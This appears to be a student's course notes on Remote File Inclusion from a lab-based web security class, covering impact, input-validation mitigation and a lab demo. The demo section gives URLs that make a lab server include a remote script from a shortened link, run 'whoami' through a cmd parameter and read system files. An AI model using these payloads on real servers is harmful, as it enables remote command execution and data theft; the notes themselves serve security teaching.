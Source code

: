 ____
**Instructor Demo: Remote File Inclusion** 

___
![[15.2.12.jpg]]

___
**Real-World Challenges, Impact and Mitigation**
**Real-World Challenges**
![[15.2.13 1.jpg]]

**Impact**
Remote Access a malicious script;
- View Confidential files or data
- Modify or delete confidential files or data
- Modify or delete critical files to cause system disruption 

**Mitigation Methods**
![[15.2.14.jpg]]
- Best way to protect from RGI is to avoid passing user-submitted input to your web server 
	- This can be accomplished by using input validation

![[15.2.15.jpg]]

**Recap Back-end components**
Local Files Inclusion scripts are local to the target server
Remote files inclusion scripts are remote to target servers 

___
![[15.2.16.jpg]]
go to the URL type 
http://192.168.13.25/vulnerabilities/fi/?page=http://www.google.com
- This will show an google webpage on top 

http://192.168.13.25/vulnerabilities/fi/?cmd=whoami&page=https://tinyurl.com/y498epmz
- This will input the command whoami on top left 
[https://tinyurl.com/y498epmz]
- this link will show this 
- ![[15.2.1.6.jpg]]
	- This link will allow you to input commands in the system 

Note: you can input cat /etc/host files 
- this will show you networks and etc. 


